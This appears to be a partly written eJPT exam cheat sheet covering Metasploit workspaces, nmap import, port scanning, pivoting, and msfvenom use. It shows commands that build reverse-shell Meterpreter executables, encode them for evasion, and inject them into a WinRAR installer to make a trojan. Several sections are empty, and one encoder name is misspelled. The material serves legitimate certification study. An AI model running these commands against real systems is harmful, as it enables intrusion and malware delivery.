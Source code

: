 <p align="center">
    <img src="LogoBiggerBW.png" alt="BPM Circuits" width="300" />
</p>

<p align="center">
  eJPT-CheatSheets<br>
  Bartosz Pokrywka
</p>

<p align="center">
    Usefull info and commands for eJPT cert exam
</p>


# Metasploit Fundamentals

1. Info gathering & Enumeration -> Aux Module

2. Vuln Scanning -> Aux Module, Nessus

3. Exploitation -> Exploit Modules & Payloads

4. Post Exploitation -> Meterpreter

5. Privilege Excalation -> Post Exploitation Modules, Meterpreter

6. Maintaining Persistent Access -> Post Exploitation Modules

msfconsole starting command:

    $ sudo service postgresql start && sudo msfconsole

## Creating and Managing Workspaces

Create:

    > workspace -a [name]

Switch:

    > workspace [name]

Delete:

    > workspace -d [name]

Rename:

    > workspace -r <old> <new>

# Enumeration

## NMAP

Use nmap XML output:

- -oX [name]

Import it into msfconsole:

    > db_import /directory/where/u/saved/the/scan

Type "services" to find out if it has worked.

Nmap also can be used inside msfconsole:

    > db_nmap -Pn -sV -O IP, etc.

The results are automaticaly imported into msfconsole.

## Port Scanning with Aux Modules

1. Create a workspace for port scanning.
2. Use aux module:

        > search portscan

    for example:

        > auxiliary/scanner/portscan/tcp

3. Run scan.
4. Exploit target.

Now in the meterpreter session perform port scan on the target (PIVOTING):

1. Open shell session:

        > shell

2. Enum the interface.
3. Add the route in meterpreter:

        > run autoroute -s [host]

4. Background the session:

        > background

5. Go again into portscan, and set the rhosts to the next target IP.

6. Scan the second target.

# Client-Side Attacks

## Genearting Payloads With Msfvenom

List of available payloads:

    > msfvenom --list payloads

Example of creating the payload for 63bit Windows system:

    > msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=IPADDRESS LPORT=PORT -f exe > destinationofpayload

- **-a** (architecture of the target system)
- **-p** (specify the payload)
- **-f** (output file)

List of formats:

    > msfvenom --list formats

## Encoding Payloads

List encoders:

    > msfvenom --list encoders

Example of creating encoded payload:

    > msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPADDRESS LPORT=PORT -e x86/shikata_ga_nai -f exe > destinationofencodedpayload

You can increase the iteration of encodings by adding:

- **-i 10**

## Injecting Payloads into Windows Portable Executables

    > msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPADDRESS LPORT=PORT -e x86/shikata_ge_nai -i 10 -f exe -x /Downloads/wrar602.exe > pathtosavethepayload

If you want to maintain the fucntionality of the spoofed exec, use this flag (may not work):

- **-k**

# Exploitation

## Windows

## Linux

# Post Exploitation Fundamentals

## Windows

## Linux

# Armitage

